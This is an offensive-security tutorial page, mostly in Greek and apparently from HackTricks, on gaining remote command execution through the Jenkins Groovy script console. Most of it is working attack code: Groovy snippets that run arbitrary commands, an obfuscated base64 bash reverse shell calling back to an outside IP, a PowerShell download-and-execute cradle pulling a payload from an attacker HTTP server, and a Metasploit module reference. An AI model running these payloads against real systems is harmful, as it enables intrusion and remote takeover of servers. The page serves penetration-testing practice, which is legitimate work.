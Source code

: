 # Jenkins RCE with Groovy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Jenkins RCE with Groovy Script

Αυτό είναι λιγότερο θορυβώδες από το να δημιουργήσεις ένα νέο έργο στο Jenkins

1. Πήγαινε στο _path\_jenkins/script_
2. Μέσα στο πλαίσιο κειμένου εισάγεις το σενάριο
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
Μπορείτε να εκτελέσετε μια εντολή χρησιμοποιώντας: `cmd.exe /c dir`

Στο **linux** μπορείτε να κάνετε: **`"ls /".execute().text`**

Αν χρειαστεί να χρησιμοποιήσετε _εισαγωγικά_ και _μονά εισαγωγικά_ μέσα στο κείμενο. Μπορείτε να χρησιμοποιήσετε _"""PAYLOAD"""_ (τριπλά διπλά εισαγωγικά) για να εκτελέσετε το payload.

**Ένα άλλο χρήσιμο groovy script** είναι (αντικαταστήστε \[INSERT COMMAND]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Αντίστροφη θήκη σε linux
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Reverse shell in windows

Μπορείτε να προετοιμάσετε έναν HTTP server με ένα PS reverse shell και να χρησιμοποιήσετε το Jeking για να το κατεβάσετε και να το εκτελέσετε:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

Μπορείτε να αυτοματοποιήσετε αυτή τη διαδικασία με [**αυτό το σενάριο**](https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_admin_script.py).

Μπορείτε να χρησιμοποιήσετε το MSF για να αποκτήσετε ένα reverse shell:
```
msf> use exploit/multi/http/jenkins_script_console
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
